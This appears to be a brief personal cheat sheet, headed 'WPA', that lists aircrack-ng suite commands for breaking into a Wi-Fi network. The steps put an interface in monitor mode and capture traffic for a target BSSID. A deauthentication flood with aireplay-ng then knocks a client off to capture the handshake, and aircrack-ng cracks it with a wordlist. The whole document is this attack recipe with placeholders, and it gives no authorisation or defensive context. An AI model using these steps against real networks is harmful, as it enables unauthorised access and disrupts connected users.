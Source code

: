 #10122015

###**WPA**

###Steps/Commands

**Window 1**
* iwconfig
* service network-manager stop
* airmon-ng start "INTERFACE"
* airodump-ng mon0
* airodump-ng --bssid "BSSID" -c "Channel" --showack -w wpa_log "INTERFACE"

**New window**
* aireplay-ng -0 20 -a "BSSID" -c "STATION" "INTERFACE" 
* ctrl c
* clear
* aircrack-ng wpa_log-01.cap -w "Road to file"

